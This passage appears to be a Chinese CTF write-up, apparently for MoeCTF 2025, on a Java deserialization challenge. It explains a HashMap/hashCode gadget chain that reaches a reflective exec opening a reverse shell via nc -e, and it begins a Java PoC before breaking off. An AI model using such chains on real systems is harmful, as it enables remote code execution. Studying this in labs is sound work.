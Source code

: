 
## [Java 反序列化] 23 第二十三章 幻境迷心·皇陨星沉(大结局)

放进 ij 反编译后发现两个求你打的函数 `WagTail`和 `ChainWagTail`，很容易能想到我们构造一条恶意狗链，利用反射 exec 反弹 shell。

但是我们很难通过单狗获得它所属的 `DogService` 从而触发 `WagTailChain`。但是，我们注意到 `DogService` 可以被序列化，于是思路就是构造一条狗放在 HashMap 里，当他被反序列化时，触发 `HashCode` 方法从而触发 `WagTail`，通过设定属性，让 `WagTail`触发我们自己构造的包含恶意狗链的 `DogService`的 `WagTailChain`方法，从而反弹 shell。

这里有一个坑，连接跳板机查看 nc 文档可知，-e 参数得放在最后面。

![image.png](./moectf2025wp/image_54.png)

PoC如下：

```java
package com.example.demo.Dog;

import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.lang.reflect.Field;
import java.util.Base64;
import java.util.HashSet;
import java.util.LinkedHashMap;
import java.util.Map;

public class PoC {
    private static String b64(Object obj) throws Exception {
        try (ByteArrayOutputStream baos = new ByteArrayOutputStream();
             ObjectOutputStream oos = new ObjectOutputStream(baos)) {
            oos.writeObject(obj);
            oos.flush();
            return Base64.getEncoder().encodeToString(baos.toByteArray());
        }
```